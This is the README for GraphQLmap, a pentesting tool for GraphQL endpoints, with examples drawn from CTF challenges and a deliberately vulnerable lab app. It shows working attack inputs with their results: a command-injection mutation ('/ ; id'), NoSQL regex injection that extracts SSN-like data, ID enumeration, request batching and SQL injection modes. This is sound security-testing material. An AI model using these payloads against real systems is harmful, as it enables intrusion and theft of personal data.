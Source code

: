 # GraphQLmap

> GraphQLmap is a scripting engine to interact with a graphql endpoint for pentesting purposes.


* [Install](#install)
* [Features and examples](#features-and-examples)
  - [Dump a GraphQL schema](#dump-a-graphql-schema)
  - [Interact with a GraphQL endpoint](#interact-with-a-graphql-endpoint)
  - [Execute GraphQL queries](#)
  - [Autocomplete queries](#)
  - [GraphQL field fuzzing](#graphql-field-fuzzing)
    - [Example 1 - Bruteforce a character](#example-1---bruteforce-a-character)
    - [Example 2 - Iterate over a number](#example-2---iterate-over-a-number)
  - [NoSQL injection inside a GraphQL field](#nosql-injection)
  - [SQL injection inside a GraphQL field](#sqli-injection)

I :heart: pull requests, feel free to improve this script :)

You can also contribute with a :beers: IRL or using Github Sponsoring button.

## Install

```bash
$ pip3 install pipx
$ pipx ensurepath 
$ pipx install git+https://github.com/swisskyrepo/GraphQLmap                                                       
   _____                 _      ____  _                            
  / ____|               | |    / __ \| |                           
 | |  __ _ __ __ _ _ __ | |__ | |  | | |     _ __ ___   __ _ _ __  
 | | |_ | '__/ _` | '_ \| '_ \| |  | | |    | '_ ` _ \ / _` | '_ \ 
 | |__| | | | (_| | |_) | | | | |__| | |____| | | | | | (_| | |_) |
  \_____|_|  \__,_| .__/|_| |_|\___\_\______|_| |_| |_|\__,_| .__/ 
                  | |                                       | |    
                  |_|                                       |_|    
                                         Author:Swissky Version:1.0
usage: graphqlmap [-h] [-u URL] [-v [VERBOSITY]] [--method [METHOD]] [--headers [HEADERS]] [--json [USE_JSON]] [--proxy [PROXY]]

optional arguments:
  -h, --help           show this help message and exit
  -u URL               URL to query : example.com/graphql?query={}
  -v [VERBOSITY]       Enable verbosity
  --method [METHOD]    HTTP Method to use interact with /graphql endpoint
  --headers [HEADERS]  HTTP Headers sent to /graphql endpoint
  --json [USE_JSON]    Use JSON encoding, implies POST
  --proxy [PROXY]      HTTP proxy to log requests
```

Development setup

```bash
# In the project directory
python3 -m venv .venv
source .venv/bin/activate
pip3 install --editable .
pip3 install -r requirements.txt
python3 main.py -u http://127.0.0.1:5013/graphql
```


## Features and examples

:warning: Examples are based on several CTF challenges from HIP2019.

### Connect to a graphql endpoint

```py
# Connect using POST and providing an authentication token
graphqlmap -u https://yourhostname.com/graphql -v --method POST --headers '{"Authorization" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXh0Ijoibm8gc2VjcmV0cyBoZXJlID1QIn0.JqqdOesC-R4LtOS9H0y7bIq-M8AGYjK92x4K3hcBA6o"}'

# Pass request through Burp Proxy
graphqlmap -u "http://172.17.0.1:5013/graphql" --proxy http://127.0.0.1:8080
```

### Dump a GraphQL schema

Use `dump_new` to dump the GraphQL schema, this function will automatically populate the "autocomplete" with the found fields.    
[:movie_camera: Live Example](https://asciinema.org/a/14YuWoDOyCztlx7RFykILit4S)

```powershell
GraphQLmap > dump_new                     
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)                   
                                                                                               
Query                                          
        doctor[]: email (String!),                                                             
        doctors[Doctor]:                                                                       
        patients[Patient]:                                                                     
        patient[]: id (ID!),                   
        allrendezvous[Rendezvous]:                                                             
        rendezvous[]: id (ID!),                                                                
Doctor                                         
        id[ID]:                                                                                
        firstName[String]:                     
        lastName[String]:                                                                      
        specialty[String]:                     
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
[...]
```


### Interact with a GraphQL endpoint

Write a GraphQL request and execute it.

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{
    "data": {
        "doctors": [
            {
                "firstName": "Admin",
                "id": "5d089c51dcab2d0032fdd08d",
                "lastName": "Admin"
            }
        ]
    }
}
```

It also works with `mutations`, they must be written in a single line.

```powershell
# ./bin/graphqlmap -u http://127.0.0.1:5013/graphql --proxy http://127.0.0.1:8080 --method POST
GraphQLmap > mutation { importPaste(host:"localhost", port:80, path:"/ ; id", scheme:"http"){ result }}
{
    "data": {
        "importPaste": {
            "result": "uid=1000(dvga) gid=1000(dvga) groups=1000(dvga)\n"
        {
    {
{
```


### GraphQL field fuzzing

Use `GRAPHQL_INCREMENT` and `GRAPHQL_CHARSET` to fuzz a parameter.      
[:movie_camera: Live Example](https://asciinema.org/a/ICCz3PqHVNrBf262x6tQfuwqT)

#### Example 1 - Bruteforce a character

```powershell
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi!\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi%\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi+\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi,\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi-\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi.\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi/\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}     
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi?\"} }"){firstName lastName id}}
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
```

#### Example 2 - Iterate over a number

Use `GRAPHQL_INCREMENT_` followed by a number.

```powershell
GraphQLmap > { paste(pId: "GRAPHQL_INCREMENT_10") {id,title,content,public,userAgent} }
[+] Query: (45) { paste(pId: "0") {id,title,content,public,userAgent} }
[+] Query: (245) { paste(pId: "1") {id,title,content,public,userAgent} }
[+] Query: (371) { paste(pId: "2") {id,title,content,public,userAgent} }
[+] Query: (309) { paste(pId: "3") {id,title,content,public,userAgent} }
[+] Query: (311) { paste(pId: "4") {id,title,content,public,userAgent} }
[+] Query: (308) { paste(pId: "5") {id,title,content,public,userAgent} }
[+] Query: (375) { paste(pId: "6") {id,title,content,public,userAgent} }
[+] Query: (315) { paste(pId: "7") {id,title,content,public,userAgent} }
[+] Query: (336) { paste(pId: "8") {id,title,content,public,userAgent} }
[+] Query: (377) { paste(pId: "9") {id,title,content,public,userAgent} }

GraphQLmap > { paste(pId: "9") {id,title,content,public,userAgent} }
{ paste(pId: "9") {id,title,content,public,userAgent} }
{
    "data": {
        "paste": {
            "content": "I was excited to spend time with my wife without being interrupted by kids.",
            "id": "UGFzdGVPYmplY3Q6OQ==",
            "public": true,
            "title": "This is my first paste",
            "userAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0"
        }
    }
}
```

### GraphQL Batching

GraphQL supports Request Batching. Batched requests are processed one after the other by GraphQL
Use `BATCHING_PLACEHOLDER` before a query to send it multiple times inside a single request.

```ps1
GraphQLmap > BATCHING_3 {__schema{ types{namea}}}
[+] Sending a batch of 3 queries
[+] Successfully received 3 outputs

GraphQLmap > BATCHING_2 {systemUpdate}
[+] Sending a batch of 2 queries
[+] Successfully received 2 outputs
```

### NoSQLi injection

Use `BLIND_PLACEHOLDER` inside the query for the `nosqli` function.    
[:movie_camera: Live Example](https://asciinema.org/a/wp2lixHqRV0pxxhZ8nsgUj6s7)

```powershell
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
Charset > 0123456789abcdef-
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
GraphQLmap >
```

### SQL injection 

```powershell
GraphQLmap > postgresqli
GraphQLmap > mysqli
GraphQLmap > mssqli
```

## Practice

* [Damn Vulnerable GraphQL Application - @dolevf](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application/blob/master/setup.py) : `docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga`

## TODO

* GraphQL Field Suggestions
* Generate mutation query
* Unit tests
* Handle node
```
{
  user {
    edges {
      node {
        username
      }
    }
  }
}
```
